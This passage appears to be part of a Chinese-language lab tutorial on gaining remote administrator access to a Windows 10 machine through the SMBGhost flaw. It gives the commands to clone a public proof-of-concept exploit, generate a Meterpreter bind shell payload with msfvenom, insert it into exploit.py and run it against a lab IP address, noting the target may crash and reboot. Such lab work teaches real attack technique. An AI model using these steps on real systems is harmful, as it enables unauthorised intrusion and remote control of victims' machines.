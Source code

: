 <img src="_media/win10/6.png" />

#### 远程获得管理员权限漏洞

1.承接上面的步骤，在攻击机上继续下载远程攻击渗透脚本

``` 
git clone https://github.com/chompie1337/SMBGhost_RCE_PoC.git
```

2.生成shell code替换，将exploit.py的USER_PAYLOAD部分删除，替换为shellcode.txt里生成的payload。替换之后，追加一行“USER_PAYLOAD = buf”。替换完成后便可运行exploit.py脚本对目标机器进行渗透攻击，该部分可能会造成目标机器蓝屏重启，若出现此状况，可多次重复该步骤。

``` 
msfvenom -p windows/x64/meterpreter/bind_tcp lport=1234 -f py -o shellcode.txt 
python3 exploit.py -ip 192.168.255.135
```
